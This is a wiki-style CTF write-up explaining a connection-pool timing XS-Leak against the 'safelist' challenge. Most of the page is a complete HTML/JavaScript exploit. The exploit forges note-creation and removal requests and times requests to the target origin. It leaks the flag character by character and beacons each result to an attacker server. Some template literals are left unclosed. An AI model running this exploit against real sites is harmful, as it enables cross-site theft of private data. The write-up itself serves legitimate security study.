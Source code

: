 # Connection Pool by Destination Example


In [[https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-safelist-html), [**@terjanq**](https://twitter.com/terjanq|**this exploit**]] proposes yet another solution for the challenged mentioned in the following page:

[[connection-pool-by-destination-example.md]]

Let's see how this exploit work:

- The attacker will inject a note with as many **`<img`** tags **loading** **`/js/purify.js`** as possible (more than 6 to block the origin).
- Then, the attacker will **remove** the **note** with index 1.
- Then, the attacker will \[make the **bot access the page** with the reminding note] and will send a **request** to **`victim.com/js/purify.js`** that he will **time**.
  - If the time is **bigger**, the **injection** was in the **note** left, if the time is **lower**, the **flag** was in there.

> [!TIP]
> Tbh, reading the script I missed some part where the **attacker makes the bot load the page to trigger the img tags**, I don't see anything like that in the code

```html
<html>
  <head>
    <script>
      const SITE_URL = "https://safelist.ctf.sekai.team/"
      const PING_URL = "https://myserver"
      function timeScript() {
        return new Promise((resolve) => {
          var x = document.createElement("script")
          x.src =
            "https://safelist.ctf.sekai.team/js/purify.js?" + Math.random()
          var start = Date.now()
          x.onerror = () => {
            console.log(`Time: ${Date.now() - start}) //Time request
            resolve(Date.now() - start)
            x.remove()
          }
          document.body.appendChild(x)
        })
      }

      add_note = async (note) => {
        let x = document.createElement("form")
        x.action = SITE_URL + "create"
        x.method = "POST"
        x.target = "xxx"

        let i = document.createElement("input")
        i.type = "text"
        i.name = "text"
        i.value = note
        x.appendChild(i)
        document.body.appendChild(x)
        x.submit()
      }

      remove_note = async (note_id) => {
        let x = document.createElement("form")
        x.action = SITE_URL + "remove"
        x.method = "POST"
        x.target = "_blank"

        let i = document.createElement("input")
        i.type = "text"
        i.name = "index"
        i.value = note_id
        x.appendChild(i)
        document.body.appendChild(x)
        x.submit()
      }

      const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms))
      // }zyxwvutsrqponmlkjihgfedcba_
      const alphabet = "zyxwvutsrqponmlkjihgfedcba_"
      var prefix = "SEKAI{xsleakyay"
      const TIMEOUT = 500
      async function checkLetter(letter) {
        // Chrome puts a limit of 6 concurrent request to the same origin. We are creating a lot of images pointing to purify.js
        // Depending whether we found flag's letter it will either load the images or not.
        // With timing, we can detect whether Chrome is processing purify.js or not from our site and hence leak the flag char by char.
        const payload =
          `${prefix}${letter} +
          Array.from(Array(78))
            .map((e, i) => `<img/src=/js/purify.js?${i}>)
            .join("")
        await add_note(payload)
        await sleep(TIMEOUT)
        await timeScript()
        await remove_note(1) //Now, only the note with the flag or with the injection existsh
        await sleep(TIMEOUT)
        const time = await timeScript() //Find out how much a request to the same origin takes
        navigator.sendBeacon(PING_URL, [letter, time])
        if (time > 100) {
          return 1
        }
        return 0
      }
      window.onload = async () => {
        navigator.sendBeacon(PING_URL, "start")
        // doesnt work because we are removing flag after success.
        // while(1){
        for (const letter of alphabet) {
          if (await checkLetter(letter)) {
            prefix += letter
            navigator.sendBeacon(PING_URL, prefix)
            break
          }
        }
        // }
      }
    </script>
  </head>
  
</html>
```
```


